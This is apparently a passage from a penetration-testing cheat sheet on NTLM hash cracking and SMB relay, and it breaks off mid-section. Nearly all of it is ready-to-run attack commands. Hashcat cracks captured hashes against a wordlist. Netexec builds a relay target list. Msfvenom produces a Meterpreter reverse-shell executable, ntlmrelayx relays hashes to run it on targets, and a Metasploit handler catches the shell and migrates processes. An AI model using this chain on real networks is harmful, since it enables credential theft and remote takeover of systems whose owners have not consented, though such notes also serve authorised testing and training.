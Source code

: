 Once a hash is obtained it can be cracked or relayed.

{% tabs %}
{% tab title="Crack" %}
```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou
```
{% endtab %}

{% tab title="Relay" %}
[#ntlm-relay](smb-139-445.md#ntlm-relay "mention")
{% endtab %}
{% endtabs %}

### NTLM Relay

{% tabs %}
{% tab title="1. Enum" %}
```bash
nxc smb 172.16.10.0/24 --gen-relay-list relay.txt
```
{% endtab %}

{% tab title="2. Payload" %}
{% code overflow="wrap" %}
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=5555 -f exe > shell.exe
```
{% endcode %}
{% endtab %}

{% tab title="3. Server" %}
```bash
sudo impacket-ntlmrelayx.py -h relay.txt -e ./shell.exe
```
{% endtab %}

{% tab title="4. Meterpreter" %}
```bash
msfconsole -q
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.10.10
msf6 exploit(multi/handler) > set LPORT 5555
msf6 exploit(multi/handler) > exploit
```
{% endtab %}

{% tab title="5. Migrate" %}
```bash
meterpreter > ps
meterpreter > migrate <PID>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="1. Enum" %}
```bash
nxc smb 172.16.10.0/24 --gen-relay-list relay.txt
```
{% endtab %}

